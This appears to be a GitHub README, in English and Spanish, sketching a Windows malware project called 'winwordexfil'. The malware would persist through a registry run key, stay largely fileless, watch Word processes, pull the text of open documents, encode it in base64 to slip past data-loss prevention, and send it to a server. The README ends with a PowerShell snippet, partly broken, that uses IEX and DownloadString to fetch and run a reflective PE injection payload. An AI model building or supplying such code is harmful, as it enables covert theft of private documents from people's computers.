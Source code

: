 # winwordexfil
A kind of malware to exfiltrate Word documents text written

Write code for Windows 10 that:

    - Is persistent (survives reboots).
    - It is as file-less as possible (should leave a minimal amount of code on disk, for as little time as possible).
    - Requires as little privileges as possible.
    - Searches for Word processes and extracts all text written (both for already open documents and for new Word instances).
    - Send the gathered data to a server.
    
 


cuando dropeas: haces persistencia, lanzas watcher

haces persistencia (a nivel usuario) que es una entrada en el registro para que se ejecute al inicio de sesión 

pendiente -> watcher para ver cuando se abre el world

exfiltrar el contenido de los documentos abiertos --> basic dlp evasion encoding in base64. more advanced techniques like adding cypher.

https://community.spiceworks.com/how_to/163884-getting-data-from-a-word-document-using-powershell

https://medium.com/@riffsandhacks/data-exfiltration-bypassing-a-misconfigured-dlp-to-exfiltrate-sensitive-data-1236989c76c1

https://stackoverflow.com/questions/52074362/how-to-connect-powershell-script-to-an-already-opened-document




http server
https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7






in order to create a better malware or wanted to use other techniques reflectivePEInjection can be used



IEX((New-Object System).DowloadString powershell infoKe-ReflectivePEInjection.ps1)
$b = downloadstring(executable.bin)
$c system.convert::frombase64string($b)
Invoke-ReflectivePEInjection -PEBytes $c   /indicanto el proceso al que quieres ir



process dll injection to hook windows api call 